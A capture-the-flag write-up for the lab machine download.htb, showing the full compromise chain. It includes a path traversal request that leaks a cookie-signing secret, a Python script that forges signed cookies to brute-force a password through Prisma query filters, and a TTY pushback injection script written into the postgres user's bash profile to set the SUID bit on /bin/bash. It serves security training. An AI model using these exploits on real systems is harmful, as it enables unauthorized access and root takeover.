# DOWNLOAD

# INITIAL ACCESS

## DISCOVERY

Nmap scans showed ports 22 and 80 open. Port 80 pointed to **download.htb**, which was added to **/etc/hosts**



Landing page on port 80:



It was possible to create an account on the website. Upon logging in, a **download_session** cookie was stored with base64 information which could be decoded.





## EXPLOIT 1 - PATH TRAVERSAL

Exploring the website, it was discovered a path traversal vulnerability on **/files/download/** by submitting the encoded **/** character: **%2f**. The following payload was used to read **app.js**:

```http
GET /files/download/..%2fapp.js HTTP/1.1
Host: download.htb
```





The **app.js** file contained the secret string to make cookies. With that, we could forge a cookie for the user with id = 1, which is most likely the admin user. For that, [cookie-monster](https://github.com/DigitalInterruption/cookie-monster) was used.

The contents of cookie.json were:

```json
{"flashes":{"info":[],"error":[],"success":[]},"user":{"id":1}}
```



Applying the forged cookie, we discovered that the username of the admin user was **wesley**.



## EXPLOIT 2 - SQL INJECTION

The web application used [prisma](https://www.prisma.io/docs/getting-started/quickstart) to connect to the database. Further reading the documentation, we discover how to send queries and how to use **"startsWith"** in queries.

With that knowledge, a custom brute-forcer was used to forge a cookie that would loop through ASCII characters to identify the password of **wesley**.

```python
#!/usr/bin/env python3

import string
import subprocess
import json
import re
import requests

regex = r"download_session=([\w=\-_]+).*download_session\.sig=([\w=\-_]+)"

def writeJson(j):
	with open("cookie.json", "w") as f:
		f.write(json.dumps(j))

def generateCookieAndSign(startsWith):
	j = {"user":{"username":{"contains": "WESLEY"}, "password":{"startsWith":startsWith}}}
	writeJson(j)
	out = subprocess.check_output(["/home/kali/.yarn/bin/cookie-monster", "-e", "-f", "cookie.json", "-k", "8929874489719802418902487651347865819634518936754", "-n", "download_session"]).decode().replace("\n"," ")
	matches = re.findall(regex, out, re.MULTILINE)[0]
	return matches

passwd = ""
alphabet="abcdef"+string.digits
for i in range(32):
	for s in alphabet:
		p = passwd + s
		(download_session, sig) = generateCookieAndSign(p)
		cookie = {"download_session": download_session, "download_session.sig": sig}
		print(p, end='\r')
		r = requests.get('http://download.htb/home/', cookies=cookie)
		if len(r.text) != 2174:
			passwd = p
			break
print()
print(passwd)     
```

In the end, a MD5 hash of the password was brute-forced and easily cracked.





The password was also valid for SSH access.



# PRIVILEGE ESCALATION

## DISCOVERY

Enumerating system files, we discover a file containing the postgreSQL credentials on **/etc/systemd/system/download-site.service**.



Also, we could see that **postgres** was a system user with its home directory on **/var/lib/postgresql**.



## EXPLOIT 3 - TTY PUSHBACK

On this box, running **pspy**, it was noted that the root user was logging in the **postgres** account and executing queries every few minutes. We could abuse this to inject commands in the **.bashrc** and **.bash_profile** files. This way, every time the user logged as **postgres**, the commands on **.bash_profile** would be executed.

However, this would only lead to a shell as **postgres**.

To bypass this, an old vulnerability could be leveraged: [TTY Pushback](https://www.errno.fr/TTYPushback.html).

Following the steps on the blog linked, we wrote the following script on **/tmp/inj.py**:

```python
#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in sys.argv[1] + '\n':
	fcntl.ioctl(0, termios.TIOCSTI, char)
```

Then we wrote to **.bashrc** and **.bash_profile** the following contents:

```sql
COPY (SELECT '###') TO '/var/lib/postgresql/.bashrc';
COPY (SELECT 'python3 /tmp/inj.py "chmod +s /bin/bash"') TO '/var/lib/postgresql/.bash_profile';
```



This resulted in adding the SUID bit to **/bin/bash** and becoming root.

